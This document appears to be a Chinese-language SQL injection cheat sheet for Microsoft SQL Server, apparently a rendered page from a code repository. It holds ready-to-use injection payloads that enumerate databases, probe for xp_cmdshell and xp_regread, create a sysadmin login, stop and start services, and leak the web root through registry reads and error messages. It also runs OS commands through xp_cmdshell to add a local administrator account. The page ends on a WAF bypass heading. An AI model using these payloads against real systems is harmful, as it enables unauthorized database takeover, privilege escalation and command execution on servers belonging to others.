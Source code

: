 ```mssql
暴库名DBID为1，2，3...
and 1=(select name from master.dbo.sysdatabases where dbid=1)

是否支持多行
;declare @d int

判断XP_CMDSHELL是否存在
and 1=(select count(*) from master.dbo.sysobjects where xtype='X' and name='xp_cmdshell')


查看xp_regread扩展存储过程是不是已经被删除
and 1=(select count(*) from master.dbo.sysobjects where name='xp_regread')

添加和删除一个SA权限的用户test（需要SA权限）
exec master.dbo.sp_addlogin test,password
exec master.dbo.sp_addsrvrolemember test,sysadmin

停掉或激活某个服务（需要SA权限）
exec master..xp_servicecontrol 'stop','schedule'
exec master..xp_servicecontrol 'start','schedule'

爆网站目录
create table [dbo].[cyfd] ([gyfd][char](255));

DECLARE @result varchar(255) EXEC master.dbo.xp_regread 'HKEY_LOCAL_MACHINE', 'SYSTEM\ControlSet001\Services\W3SVC\Parameters\Virtual Roots', '/', @result output insert into 临时表 (临时字段名) values(@result);--

id=2;DECLARE @result varchar(255) EXEC master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SYSTEM\ControlSet001\Services\W3SVC\Parameters\Virtual Roots', '/', @result output insert into cyfd (gyfd) values(@result);--

and 1=(select count(*) from 临时表 where 临时字段名>1)
and 1=(select count(*) from cyfd where gyfd > 1)
这样IE报错,就把刚才插进去的Web路径的值报出来了
drop table cyfd;-- 删除临时表
```

##### 命令执行：

```mssql
用xp_cmdshell执行命令
;exec master..xp_cmdshell"net user name password /add"-- 
;exec master..xp_cmdshell"net localgroup name administrators /add"-- 
```

---

### 通用型WAF绕过思路

- URL编码
